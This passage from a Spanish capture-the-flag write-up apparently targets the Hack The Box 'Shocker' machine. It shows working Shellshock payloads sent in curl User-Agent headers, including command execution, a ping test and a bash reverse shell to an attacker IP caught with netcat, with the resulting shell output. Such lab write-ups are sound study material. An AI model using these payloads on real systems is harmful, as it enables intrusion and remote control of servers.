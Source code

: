 Nos manda un error, he visto en ejemplos que usan el comando **echo** quiza por eso fallo, probemoslo:
```bash
curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" 'http://10.10.10.56/cgi-bin/user.sh'    
shelly
```

Muy bien, para que quede más claro de que podemos inyectar comandos, lancemos una Traza ICMP para probarlo:

* Activamos un capturador con **tcpdump**:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

* Escribimos la petición para mandar un **ping** con **curl**:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'ping -c 4 Tu_IP'" 'http://10.10.10.56/cgi-bin/user.sh'
```

* La activamos y vemos el resultado:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:32:45.338204 IP 10.10.10.56 > Tu_IP: ICMP echo request, id 1578, seq 1, length 64
20:32:45.338214 IP Tu_IP > 10.10.10.56: ICMP echo reply, id 1578, seq 1, length 64
20:32:46.339937 IP 10.10.10.56 > Tu_IP: ICMP echo request, id 1578, seq 2, length 64
20:32:46.339948 IP Tu_IP > 10.10.10.56: ICMP echo reply, id 1578, seq 2, length 64
```

Muy bien, ahora aquí podemos hacer dos cosas, una seria cargar un Payload con una **Reverse Shell** para que nos conecte o directamente pedirle esa conexión sin cargar el Payload, hagamos lo segundo:

+ Activamos una **netcat**:
```bash
nc -nvlp 443                                                                         
listening on [any] 443 ...
```

* Agregamos la **Reverse Shell** en el comando de **curl**:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/Tu_IP/443 0>&1" 'http://10.10.10.56/cgi-bin/user.sh'
```
* Aquí nos apoyamos de la siguiente página web que te genera **Reverse Shells** en casi cualquier lenguaje:  https://www.revshells.com/

* Activamos el comando y vemos el resultado:
```bash
nc -nvlp 443                                                                         
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.56] 53874
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```
